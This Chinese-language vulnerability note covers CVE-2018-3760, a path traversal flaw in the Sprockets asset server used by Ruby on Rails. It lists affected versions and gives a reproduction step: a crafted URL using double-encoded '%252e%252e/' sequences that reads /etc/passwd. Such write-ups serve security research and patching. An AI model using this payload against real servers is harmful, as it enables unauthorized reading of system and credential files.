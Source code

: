 （CVE-2018-3760）Ruby On Rails 任意文件读取漏洞
===============================================

一、漏洞简介
------------

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On
Rails是著名的Ruby
Web开发框架，Sprockets是编译及存储静态资源文件的Ruby库。

在3.7.1及之前的版本中，存在一处因为二次解码导致的路径穿越中断，攻击者可以利用`%252e%252e/`来跨越到根目录，读取或执行目标服务器上任意文件。

二、漏洞影响
------------

4.0.0.beta7及更低版本3.7.1及更低版本2.12.4及更低版本

三、复现过程
------------

### 漏洞分析

漏洞原理问题出在`sprockets`，它用来检查 JavaScript
文件的相互依赖关系，用以优化网页中引入的js文件，以避免加载不必要的js文件。当访问如`http://www.0-sec.org:3000/assets/foo.js`时，会进入`server.rb`

### 漏洞浮现

直接访问`http://www.0-sec.org:3000/assets/file:%2f%2f/etc/passwd`，将会报错，因为文件`/etc/passwd`不在允许的目录中：

![1.png](resource/(CVE-2018-3760)RubyOnRails任意文件读取漏洞/media/rId26.png)

我们通过报错页面，可获得允许的目录列表。随便选择其中一个目录，如`/usr/src/blog/app/assets/images`，然后使用`%252e%252e/`向上一层替换，最后读取`/etc/passwd`：

    http://www.0-sec.org:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd

![2.png](resource/(CVE-2018-3760)RubyOnRails任意文件读取漏洞/media/rId27.png)
